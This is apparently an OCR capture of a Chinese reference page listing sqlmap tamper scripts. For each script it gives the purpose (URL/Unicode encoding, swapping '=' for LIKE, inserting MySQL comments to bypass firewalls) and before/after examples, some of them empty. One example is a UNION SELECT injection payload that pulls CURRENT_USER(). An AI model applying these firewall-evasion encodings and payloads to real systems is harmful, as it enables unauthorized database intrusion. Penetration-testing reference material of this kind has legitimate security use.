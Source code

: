	SELECT FIELD FROM%20TABLE
	%2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545


> 脚本名：charencode.py  

作用：对给定的payload全部字符使用URL编码（不处理已经编码的字符）    
Example：

	SELECT FIELD FROM%20TABLE
	%53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45


> 脚本名：charunicodeencode.py   

作用：对给定的payload的非编码字符使用Unicode URL编码（不处理已经编码的字符）    
Example：

	SELECT FIELD%20FROM TABLE
	%u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′


> 脚本名：concat2concatws.py  

作用：用“CONCAT_WS(MID(CHAR(0), 0, 0), A, B)”替换像“CONCAT(A, B)”的实例    
Example：


> 脚本名：equaltolike.py    

作用：用“LIKE”运算符替换全部等于号“=”    
Example：

	SELECT * FROM users WHERE id=1
	SELECT * FROM users WHERE id LIKE 1


> 脚本名：greatest.py   

作用： 用“GREATEST”函数替换大于号“>”    
Example：

	('1 AND A > B')
	'1 AND GREATEST(A,B+1)=A'


> 脚本名：halfversionedmorekeywords.py   

作用： 当数据库为mysql时绕过防火墙，每个关键字之前添加mysql注释
Example：

	("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")
	"value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"


> 脚本名：ifnull2ifisnull.py    

作用：用“IF(ISNULL(A), B, A)”替换像“IFNULL(A, B)”的实例    
Example：
